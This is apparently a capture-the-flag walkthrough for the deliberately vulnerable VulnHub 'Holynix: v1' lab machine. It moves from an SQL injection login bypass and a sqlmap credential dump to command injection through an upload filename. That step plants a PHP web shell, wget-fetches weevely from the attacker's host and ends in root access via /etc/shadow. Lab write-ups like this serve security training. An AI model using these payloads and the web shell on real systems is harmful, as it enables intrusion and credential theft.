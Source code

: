 ```yaml
---
layout: post
title: "Holynix: v1"
date: 2015-05-10 13:54:06 +0200
comments: true
categories: [vulnhub, holynix]
---
```

Image: [Holynix: v1](https://www.vulnhub.com/entry/holynix-v1,20/)

We set networking in Vmware Fusion as "Share with my Mac" and check the 
obtained IP address:

{% codeblock %}
/var/db/vmware:
lease 192.168.80.142 {
        starts 4 2015/04/30 16:18:54;
        ends 4 2015/04/30 16:48:54;
        hardware ethernet 00:0c:29:bc:05:de;
}
{% endcodeblock %}

Nmap output:
{% codeblock %}
root@kali32:~# nmap -sV -p- 192.168.80.142

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 07:16 CEST
Nmap scan report for 192.168.80.142
Host is up (0.00028s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
{% endcodeblock %}

There is a SQL injection in the web login, we submit the following username and password: 
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Via security (ssp.php) we can disclose arbitrary file (for example /etc/passwd):
{% codeblock %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
{% endcodeblock %}

With sqlmap we can dump the whole database (%40 means '@' character):
{% codeblock %}
# sqlmap -u "http://192.168.80.142/index.php?page=login.php&user_name=a&password=a&Submit_button=Submit" --dump-all
{% endcodeblock %}
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.142/dump# cat creds/accounts.csv
cid,upload,username,password
1,0,alamo,Ih%40cK3dM1cR05oF7
2,1,etenenbaum,P3n7%40g0n0wN3d
3,1,gmckinnon,d15cL0suR3Pr0J3c7
4,1,hreiser,Ik1Ll3dNiN%40r315er
5,1,jdraper,p1%40yIngW17hPh0n35
6,1,jjames,%40rR35t3D%40716
7,1,jljohansen,m%40k1nGb0o7L3g5
8,1,kpoulsen,wH%407ar37H3Fed5D01n
9,0,ltorvalds,f%407H3r0FL1nUX
10,1,mrbutler,n%405aHaSw0rM5
11,1,rtmorris,Myd%40d51N7h3NSA
{% endcodeblock %}

Using sqlmap --passwords parameter we got:
{% codeblock %}
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: %2A04DDBBF6BA7B43D9B78611E125C80124644D17B8
[*] root [1]:
    password hash: %2AA69F92BBDEA591F5BB9E4A049F0C181D6DB5177E
{% endcodeblock %}

Back to the web page, there is a cookie set as 'uid=1'. We can try different
numbers, because not every user has allowed to upload file, see accounts.csv. 

We disclose transfer.php script:
{% codeblock lang:php %}
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
        if ( $upload == 1 )
        {
                $homedir = "/home/".$logged_in_user. "/";
                $uploaddir = "upload/";
                $target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
                $uploaded_type = $_FILES['uploaded']['type'];
                $command=0;
                $ok=1;

                if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) { $command = 1; }

                if ($ok==0)
                {
                        echo "Sorry your file was not uploaded";
                        echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
                } else {
                        if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
                        {
                                echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h4><br />";
                                echo "The ownership of the uploaded file(s) have been changed accordingly.";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                                if ( $command == 1 )
                                {
                                        exec("sudo tar xzf " .$target. " -C " .$homedir);
                                        exec("rm " .$target);
                                } else {
                                        exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
                                }
                                exec("/var/apache2/htdocs/update_own");
                        } else {
                                echo "Sorry, there was a problem uploading your file.<br />";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                        }
                }
        } else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>
{% endcodeblock %}

As we can see from the source code, the filename is used in shell command and
we can inject malicious input. However the '/' or '\' characters are
prohibited, because in $target is stored only the value after (back)slash.

Locator (it never terminates, but confirms our finding):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";yes;"
{% endcodeblock %}

We can evade the slash restriction encoding the payload as base64 (touch /tmp/owned):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";`echo dG91Y2ggL3RtcC9vd25lZA==| base64 -d`;"
{% endcodeblock %}

There could be a problem with a bigger input ("filename too long").

Similarly we upload the following base64 payload redirected to 'b.php':
{% codeblock %}
root@kali32:/var/www# echo '<?php system($_REQUEST['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFtjbWRdKTsgPz4K
{% endcodeblock %}

We try our php shell and in the case of success, we upload weevely from our web server:
{% codeblock %}
http://192.168.80.142/b.php?cmd=id
http://192.168.80.142/b.php?cmd=wget 192.168.80.137/weevely.php.txt -O c.php
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# weevely http://192.168.80.142/c.php 1234
{% endcodeblock %}

Note that there exists also a trivial solution, because users can upload php
shell to home directory, which can be invoked without any restriction.

If we read the discussion on web server, someone is asking about port knocking.
We download the data to our server: 
{% codeblock %}
www-data@:/etc/knockknock.d/profiles/alamo $

root@kali32:~# find .knockknock/
.knockknock/
.knockknock/192.168.80.142
.knockknock/192.168.80.142/config
.knockknock/192.168.80.142/counter
.knockknock/192.168.80.142/mac.key
.knockknock/192.168.80.142/cipher.key
{% endcodeblock %}

From the vulnerable server, we download and use knockknock too:
{% codeblock %}
root@kali32:~/.knockknock# knockknock -p 22 192.168.80.142
*** Success: knock sent.
root@kali32:~/.knockknock# ssh alamo@192.168.80.142

The authenticity of host '192.168.80.142 (192.168.80.142)' can't be established.
RSA key fingerprint is 03:73:de:c7:17:96:0b:bb:8c:8e:c7:87:9b:5b:d5:c9.
Are you sure you want to continue connecting (yes/no)?
{% endcodeblock %}

We log in as alamo / Ih@cK3dM1cR05oF7.

Because nobody has higher privileges for sudo except www-data, we use the web
account to obtain root privileges.
One way of doing this is to change using chown /etc/shadow file permissions
to www-data, move to /tmp and change the root hash to a know one (e.g.
alamo's). Then we move the shadow file back. 

In the end we log in as root with Ih@cK3dM1cR05oF7 password:
{% codeblock %}
# uid=0(root) gid=0(root) groups=0(root)
{% endcodeblock %}
